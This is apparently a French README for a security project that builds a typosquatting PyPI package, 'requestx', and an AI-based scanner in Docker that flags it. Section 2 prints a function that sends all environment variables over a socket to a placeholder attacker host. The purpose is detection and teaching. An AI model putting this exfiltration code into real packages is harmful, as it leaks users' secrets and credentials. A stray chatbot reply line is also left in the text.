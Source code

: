 ```markdown
# Projet RequestX : Détection d’un Paquet Python Malveillant

## 1. Introduction

Les dépôts publics comme **PyPI** constituent une cible privilégiée pour les attaques de la chaîne d’approvisionnement logicielle (*supply-chain attacks*).  
Un attaquant peut en effet publier un paquet qui paraît légitime mais contient du code malveillant.  
Une fois installé, ce paquet peut compromettre la machine de la victime en exfiltrant des données sensibles.  

L’objectif de ce projet est de :

1. Illustrer la création et la publication d’un paquet Python **compromis**.
2. Montrer comment un outil d’analyse peut détecter les comportements malveillants.
3. Démontrer que l’analyse est fiable en testant également un paquet **inoffensif**.

---

## 2. Paquet compromis : `requestx`

Le paquet **`requestx`** a été conçu pour imiter une librairie Python utile.  
Derrière cette façade légitime, son fichier principal contient du code malveillant qui exfiltre les variables d’environnement vers un serveur externe.

- **Code malveillant :**

```python

# Exfiltration de toutes les variables d'environnement
def _exfiltrate_env():
    try:
        env_vars = json.dumps(dict(os.environ))
        s = socket.socket()
        s.connect(("ip.hacker", port.hacker)) # Connexion au handle
        s.send(env_vars.encode())
        s.close()
    except Exception:
        pass


Ainsi, un utilisateur qui installe et utilise ce paquet croit bénéficier d’une librairie pratique, mais son système est immédiatement compromis.

---

## 3. Paquet témoin : `requestx_safe`

Afin de valider l’efficacité de l’outil d’analyse, un second paquet a été créé : **`requestx_safe`**.
Celui-ci ne contient **aucune fonctionnalité malveillante**.
Son rôle est uniquement de démontrer que l’analyse fait correctement la distinction entre un paquet compromis et un paquet sain.

---

### 4. Analyse des paquets

L’analyse des paquets Python doit se fait dans un environnement **sécurisé et isolé** afin d’éviter toute exécution dangereuse de code malveillant. Pour cela, le processus complet est exécuté **dans un conteneur Docker dédié**, qui assure un confinement strict.

De plus, l’étape d’interprétation du code est confiée à une **IA spécialisée** : celle-ci examine les fichiers Python, détecte des motifs suspects et rend un verdict accompagné de détails. L’approche combine donc **isolation technique** (Docker) et **intelligence artificielle** (analyse de code).

---

#### Étapes de l’analyse :

1. **Soumission du paquet** : un package Python est téléchargé dans le conteneur Docker.
2. **Extraction du contenu** : le paquet est décompressé (fichiers `.py`, `pyproject.toml`, etc.).
3. **Scan statique** : chaque fichier Python est lu, sans exécution, afin d’éviter les risques.
4. **Analyse par IA** : le contenu de chaque fichier est envoyé à un modèle d’IA, qui :

   * identifie des comportements dangereux (exfiltration, accès aux secrets, etc.),
   * distingue les fonctions légitimes des actions suspectes,
   * fournit un verdict explicite (`safe` / `malicious`).
5. **Rapport JSON** : les résultats sont restitués de manière structurée pour chaque fichier python trouvé.

---

#### Schéma ASCII du processus :




### Schéma ASCII du processus d’analyse

```
[ Paquet Python ] --> [ Docker isolé ] --> [ Extraction contenu ] --> [ Scan statique ] --> [ Analyse IA ] --> [ Rapport JSON ]
```

---

#### Exemples de résultats

**Pour le paquet compromis `requestx` :**

<img width="1116" height="578" alt="image" src="https://github.com/user-attachments/assets/bb13b828-b71e-466b-ad85-c875d15c11dc" />



**Pour le paquet témoin `requestx_safe` :**

<img width="1125" height="903" alt="image" src="https://github.com/user-attachments/assets/8946fcbd-ad13-4c3e-aa57-1101df03033d" />


---

#### Interprétation

* Dans le cas de **`requestx`**, l’IA détecte que le fichier accède aux variables d’environnement et les envoie vers un serveur externe → verdict **malicious**.
* Dans le cas de **`requestx_safe`**, le code se limite à une fonction légitime et ne contient aucun comportement dangereux → verdict **safe**.

Ces résultats démontrent la capacité du système à **détecter un code malveillant même dans un package qui semble légitime**, tout en reconnaissant correctement les paquets sûrs.

---

## 5. Discussion : Supply-Chain Attacks et Typosquatting

Ce projet illustre un scénario réaliste de **supply-chain attack** où un paquet Python publié sur un dépôt officiel peut contenir du code malveillant.
Un utilisateur non vigilant qui installe ce paquet compromet immédiatement son environnement.

En complément, un autre risque fréquent est le **typosquatting** : un attaquant publie un paquet avec un nom très proche d’un paquet populaire (`requestx` au lieu de `requests`) pour piéger les utilisateurs.

---

D’accord, je vois. Voici une version **plus brève et directe**, sans répétitions inutiles :

---

## 6. Conclusion

Ce projet montre qu’un paquet Python peut facilement être détourné pour exécuter du code malveillant, et qu’une analyse automatisée dans un environnement isolé permet de détecter ces comportements avant installation. La comparaison entre **`requestx`** et **`requestx_safe`** illustre l’efficacité d’un tel outil pour renforcer la sécurité de la chaîne d’approvisionnement logicielle.
````
